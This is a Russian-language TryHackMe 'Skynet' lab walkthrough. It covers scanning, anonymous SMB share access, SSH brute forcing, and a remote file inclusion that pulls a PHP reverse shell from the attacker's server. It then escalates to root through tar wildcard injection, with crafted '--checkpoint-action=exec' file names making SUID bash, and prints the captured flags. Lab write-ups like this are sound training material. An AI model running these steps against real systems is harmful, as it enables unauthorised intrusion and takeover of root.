




# TryHackMe - Win Easy - Skynet

📅 Дата: 2025-07-06  
🧠 Сложность: Easy  
💻 IP-адрес: 10.10.60.59  

---

## Sugar

```bash
nmap_ctf() {
  local ip=$1
  sudo nmap -sS -p- -n --max-parallelism 100 --min-rate 1000 -v -oN nmap-sS.txt $ip && nmap -sT -Pn -sV -T4 -A -v -p "$(grep -oP \"^[0-9]+(?=/tcp\s+open)\" nmap-sS.txt | sort -n | paste -sd \",\")" -oN nmap-sV.txt $ip
}
```


## 🔍 Сканирование

```bash
export ip=10.10.60.59 && nmap_ctf $ip
```

### nmap
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES TOP PIPELINING CAPA UIDL SASL AUTH-RESP-CODE
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: LITERAL+ capabilities more listed have post-login Pre-login IMAP4rev1 LOGIN-REFERRALS OK ID LOGINDISABLEDA0001 ENABLE IDLE SASL-IR
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (96%), Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 7.1.1 - 7.1.2 (93%), Linux 3.13 - 4.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.001 days (since Sun Jul  6 22:23:31 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=250 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2025-07-06T21:25:06-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
| nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   SKYNET<00>           Flags: <unique><active>
|   SKYNET<03>           Flags: <unique><active>
|   SKYNET<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-07-07T02:25:06
|_  start_date: N/A
```

---

## 🕵️ Enumeration

### ffuf
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Skynet/scans]
└─$ ffuf -fc 404 -t 100 -w /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt -u http://$ip:80/FUZZ -o ffuf.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.60.59:80/FUZZ
 :: Wordlist         : FUZZ: /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 404
________________________________________________

admin                   [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 214ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 217ms]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 242ms]
config                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 217ms]
ai                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 219ms]
squirrelmail            [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 216ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 225ms]
:: Progress: [220560/220560] :: Job [1/1] :: 282 req/sec :: Duration: [0:08:56] :: Errors: 0 ::
```

### smb
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Skynet/scans]
└─$ smbclient -L $ip -U ""
Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET
```

### smb shares
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Skynet/scans]
└─$ smbclient \\\\$ip\\anonymous -U ""
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019

                9204224 blocks of size 1024. 5791912 blocks available
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
getting file \attention.txt of size 163 as attention.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \logs\log2.txt of size 0 as logs/log2.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \logs\log1.txt of size 471 as logs/log1.txt (0.5 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \logs\log3.txt of size 0 as logs/log3.txt (0.0 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> exit
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Skynet/scans]
└─$ smbclient \\\\$ip\\milesdyson -U ""
Password for [WORKGROUP\]:
tree connect failed: NT_STATUS_ACCESS_DENIED
```

attention.txt
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Skynet/scans]
└─$ cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

log1.txt - похоже тут пароли, log2.txt и log3.txt - пустые
```bash
┌──(kali㉿0x2d-pentest)-[~/…/TryHackMe/Win Easy - Skynet/scans/logs]
└─$ cat log1.txt     
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

Есть пароли и имя пользователя из SMB `milesdyson      Disk      Miles Dyson Personal Share`

### ssh
brute ssh не дал результатов
```bash
┌──(kali㉿0x2d-pentest)-[~/…/TryHackMe/Win Easy - Skynet/scans/logs]
└─$ hydra -l milesdyson -P ./log1.txt -t 40 -vV ssh://$ip
```

Проверяю директории, найденные в ffuf, есть **SquirrelMail version 1.4.23**


Умпешно вошел с **milesdyson** **cyborg007haloterminator**


smb pass ")s{A&2Z=F^n_E.B`"
```bash
┌──(kali㉿0x2d-pentest)-[~/…/TryHackMe/Win Easy - Skynet/scans/logs]
└─$ smbclient \\\\$ip\\milesdyson -U "milesdyson"
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Sep 17 05:05:47 2019
  ..                                  D        0  Tue Sep 17 23:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 05:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 05:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 05:05:14 2019
  notes                               D        0  Tue Sep 17 05:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 05:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 05:05:14 2019
```

в директории notes был файл **important.txt**
```bash
smb: \notes\> more important.txt
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

`http://10.10.60.59/45kra24zxs28v3yd/`


Есть эксплойт



## 📂 Получение доступа

Скачиваю реверс php и запускаю сервер
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Skynet/exploits]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

Загружаю реверс шелл
`http://10.10.60.59/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.21.104.16:8888/reverse.php`

Ловлю в nc и улучшаю shell через python
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Easy - Skynet/exploits]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.21.104.16] from (UNKNOWN) [10.10.60.59] 56634
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:01:20 up  3:42,  0 users,  load average: 0.00, 0.08, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

Флаг
```bash
www-data@skynet:/home/milesdyson$ cat user.txt
cat user.txt
7ce5c2109a40f958099283600a9ae807
```


## ⚙️ Привилегии

Загрузил linPEAS, проверил **Pkexec binary has SUID bit set**
```bash
══╣ Polkit Binary
Pkexec binary found at: /usr/bin/pkexec                                                                           
Pkexec binary has SUID bit set!
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
pkexec version 0.105
```

Не прошло
```bash
www-data@skynet:/home/milesdyson$ pkexec /bin/sh
pkexec /bin/sh
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/sh' as the super user                                                       
Authenticating as: root
Password: admin

polkit-agent-helper-1: pam_authenticate failed: Authentication failure
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized                                                           

This incident has been reported.
```

далее смотрю cron, есть интересная **/home/milesdyson/backups/backup.sh**
```bash
╔══════════╣ Check for vulnerable cron jobs
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scheduledcron-jobs              
══╣ Cron jobs list                                                                                                
/usr/bin/crontab                                                                                                  
incrontab Not Found
-rw-r--r-- 1 root root     776 Sep 17  2019 /etc/crontab                                                          

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Права для backup.sh
```bash
www-data@skynet:/home/milesdyson/backups$ ls -la
ls -la
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Sep 17  2019 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Jul  7 01:48 backup.tgz
```

содержимое backup.sh
```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Перезаписать нельзя, но есть интересный способ, основанный на том, как обрабатывается `*` в **tar**
```bash
echo -e '#!/bin/bash\nchmod +s /bin/bash' > /var/www/html/evil.sh
touch "/var/www/html/--checkpoint-action=exec=sh evil.sh"
touch "/var/www/html/--checkpoint=1"
```

```bash
www-data@skynet:/var/www/html$ ls -la
ls -la
total 72
-rw-rw-rw- 1 www-data www-data     0 Jul  7 03:38 --checkpoint-action=exec=sh evil.sh
-rw-rw-rw- 1 www-data www-data     0 Jul  7 03:39 --checkpoint=1
drwxr-xr-x 8 www-data www-data  4096 Jul  7 03:39 .
drwxr-xr-x 3 root     root      4096 Jul  7 03:26 ..
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rw-rw-rw- 1 www-data www-data    43 Jul  7 03:38 evil.sh
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
```

```bash
www-data@skynet:/var/www/html$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

```bash
www-data@skynet:/var/www/html$ /bin/bash -p
/bin/bash -p
bash-4.3# whoami
whoami
root
bash-4.3# cd /root 
cd /root
bash-4.3# ls -la
ls -la
total 28
drwx------  4 root root 4096 Sep 17  2019 .
drwxr-xr-x 23 root root 4096 Sep 18  2019 ..
lrwxrwxrwx  1 root root    9 Sep 17  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Sep 17  2019 .cache
drwxr-xr-x  2 root root 4096 Sep 17  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Sep 17  2019 root.txt
bash-4.3# cat root.txt
cat root.txt
3f0372db24753accc7179a282cd6a949
bash-4.3# 
```


## 🏁 Флаги

- User flag: 7ce5c2109a40f958099283600a9ae807 
- Root flag: 3f0372db24753accc7179a282cd6a949 

---
